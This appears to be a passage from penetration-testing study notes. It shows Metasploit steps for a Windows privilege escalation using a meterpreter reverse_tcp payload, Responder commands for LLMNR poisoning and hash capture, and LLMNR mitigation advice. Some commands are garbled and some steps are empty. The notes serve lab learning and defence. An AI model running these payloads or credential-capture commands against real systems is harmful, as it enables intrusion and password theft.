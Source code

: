 ```
options
show targets
#
```
![image](https://github.com/user-attachments/assets/12500c19-a8fd-4b20-bffa-2d56374fb5ce)
```
set target 2
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set lhost <ip>
```
```
set srvhost<ip>
```
- Run options to check you have set all settings
```
run
```

#### Sources
TCM Academy Course - Windows Privilege Escalation
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://github.com/ohpe/juicy-potato
Jeeves - hackthebox

### LLMNR Poisoning - How to attack

Step1️⃣ Run Responder
```
python /usr/share/responder/Responder.py -I tun0 -rdw -v
```
```
sudo -I responder -| tun0 -dwP
```
<details><summary>Step 2️⃣</summary></details>

<details><summary>Step 3️⃣A hash will come through, like the screenshot:  </summary></details>

<details><summary>Step 4️⃣ Using hashcat, if the password is weak enough we can crack it:  </summary></details>


#### LLMNR Poisoning - Mitigation
---
To mitigate the LLMNR (Link-Local Multicast Name Resolution) poisoning vulnerability in an Active Directory environment, you can use PowerShell to disable LLMNR across your network. Here's how:

<details><summary>Steps to Mitigate LLMNR Poisoning</summary></details>

By disabling LLMNR, you effectively reduce the risk of exploitation via LLMNR poisoning attacks in your Active Directory environment.
> [!TIP]
> If a company must use or cannot disable LLMNR, the best course of action is to:
>
> 1️⃣Require Network Access Control
> 
> 2️⃣Require Strong user passwords (greater than 14 characters)
